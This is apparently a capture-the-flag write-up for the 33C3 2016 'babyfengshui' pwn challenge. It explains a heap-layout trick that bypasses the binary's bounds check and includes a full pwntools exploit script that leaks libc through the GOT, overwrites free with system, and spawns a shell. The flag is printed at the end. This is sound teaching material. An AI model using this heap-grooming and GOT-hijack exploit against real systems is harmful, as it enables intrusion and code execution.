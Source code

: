 ```yaml
---
title: '33C3 CTF 2016 -- babyfengshui'
date: 2016-12-30 00:27
tags:
  - 33C3
  - CTF
  - Pwnable
  - heap_overflow
  - heap
  - Python
categories:
  - write-ups
---
```

**Category:** pwn
**Points:** 150

<!-- more -->  

32 bit ELF, with Partial RELRO, canary & NX enabled, No PIE  

program menu:
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
Here's the data structure of a user:
```c 
struct user{
    char* desc;
    char name[124];
};
```
The program will free `user->desc` & `user` while deleting a user. It also clear the pointer of the `user`, so there's no Use-After-Free vulnerability. 

The program has some strange protection while setting the user's description:
```c
// users = struct user *users[]
if ( &users[id]->desc[text_len] >= &users[id] - 4 )
{
    puts("my l33t defenses cannot be fooled, cya!");
    exit(1);
}
printf("text: ");
read_n(users[id]->desc, text_len + 1);
```
So `user->desc + text_len` must < `user` (both `user->desc` and `user` are pointers). Guess it use this protection to avoid heap overflow.

But what if we have the following heap memory layout?
```

            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```
According to the protection, `userD->desc + text_len` should less than `userD`, **which means it will be ok to overwrite the whole `userB` and `userC`**.

It is possible to arrange the above heap memory layout if we're familiar with malloc's memory allocation. We can then exploit the heap overflow vulnerability and modify the `userB->desc` pointer, making us able to do the **read/write anywhere** attack. After that is pretty simple, we leak the libc's base address and hijack `free`'s GOT to get the shell.

```python exp_baby.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`
